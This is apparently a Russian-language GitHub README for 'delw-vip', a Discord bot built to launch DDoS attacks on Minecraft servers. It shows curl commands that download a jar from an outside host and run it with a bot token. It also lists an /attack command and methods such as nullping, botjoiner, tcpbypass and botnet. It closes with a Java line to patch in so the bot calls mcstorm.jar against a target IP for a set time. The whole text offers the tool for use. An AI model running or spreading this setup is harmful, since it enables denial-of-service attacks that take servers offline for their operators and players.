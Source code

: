 ```console
root@itskekoffcode:~$ curl -o delw-vip.jar http://f0652346.xsph.ru/vip.jar
root@itskekoffcode:~$ java -jar delw-vip.jar ТОКЕНБОТА
Запуск бота
Команды могут регистрироватся по часу! Возможные причины ошибок:
Вы не пригласили бота используя не только bot, но и application.commands
Не указан/неверный токен
Команды:
- /attack
- /methods (не работает)
- /credits
```
```console
root@itskekoffcode:-$ methods
Вот список методов:
join, default, legitjoin, localhost, invalidnames, longnames 
botjoiner, spoof, ping, nullping, multikiller, handshake, bighandshake, query 
bigpacket, network, randombytes, extremejoin, spamjoin, nettydowner, ram 
yoonikscry, colorcrasher, tcphit, tcpbypass, botnet, queue 
ultimatesmasher, sf, nabcry
Где default - ддос обычного бота DelW
```

> Заметка: В этом боте используется [KingDoS](https://discord.gg/mGRGpp9snr).
> Так же, рекомендуется запускать его на Windows Server. Или, если хотите на линукс, то уж, скомпильте сами.
> Поменяйте строчку [57](https://github.com/itskekoff/delw-vip/blob/f0269854e29f537ba653b48479bb8f95b36ab1d1/src/main/java/neko/itskekoff/discordddosbot/manager/impl/run.java#L57) и строку [40](https://github.com/itskekoff/delw-vip/blob/f0269854e29f537ba653b48479bb8f95b36ab1d1/src/main/java/neko/itskekoff/discordddosbot/manager/impl/run.java#L40) на этот код:
```java
CommandExecutor.exec(String.format("java -jar ./server/jars/mcstorm.jar %s %d %s %d %s", ip, 340, method, time, "-1"));
```
Лю :blue_heart:
